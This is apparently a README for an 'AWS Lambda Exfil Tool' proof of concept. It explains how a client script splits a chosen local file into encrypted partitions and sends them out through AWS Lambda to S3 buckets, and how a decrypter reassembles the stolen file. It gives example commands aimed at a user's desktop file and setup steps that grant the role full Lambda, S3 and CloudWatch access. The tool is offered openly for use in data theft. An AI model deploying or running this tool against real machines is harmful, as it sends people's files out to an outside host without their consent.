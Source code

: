 # AWS Lambda Exfil Tool [PoC]

Here we have a small PoC on how the program works (The gif is somewhat outdated but the idea is the same)

![StandaloneClientGif](media/standaloneClient.gif)

## About
The program follows the following diagram. Explanation on how each part functions is present on standaloneClient pdf file.  

![StandaloneClient diagram](media/Standalone_client_1.png?raw=true "Standalone Client Diagram")


## Usage
#### Client
`py clientName.py -s <Partition size in kb> -i <File to exfiltrate> -f <OPTIONAL: Disable max partitions (500)>`  
Example:  
`py clientName.py -s 100 -i "C:\Users\SomeUser\Desktop\test.txt"`
#### Decrypter
###### Note: If not sure about hostname and filename, check S3 Bucket after exfiltration
`py decrypter.py -n "Hostname" -i "Filename"`  
Example after exfiltrating test.txt:  
`py decrypter.py -n "ID4A0E" -i "test"`

The decrypter is going to be setup at the first `setup.py` run.    
Decrypter setup is based on `decrypterConfig.json` so the keys used for connection, as well as exfiltration buckets can be changed.  
If AWS account / bucket needs to be changed, please modify the above mentioned json file.

## Setup

###### Note: Use python 3.x  

#### IAM Console
Go to AWS IAM console and create a role (Remember the ARN name) with the following permissions:  

- AWSLambdaFullAccess
- AmazonS3FullAccess
- CloudWatchFullAccess

###### Run `pip install -r requirements.txt`

###### Run `py setup.py` and follow the prompts for client setup

###### Decrypter will be set up the first time it's ran, follow the prompts

#### Partitions
Please take in account the size of the file to be exfiltrated when defining the partition size. By default the max partition number is set to 500. This means that the file to be exfiltrated must weigh `500*partitionSize` or less. This can be overrided by adding `-f` to the client call.   

#### Supported Files
The tool supports txt, csv and xlsx files but every file that is text based (For example a .py file) will be exfiltrated succesfully.
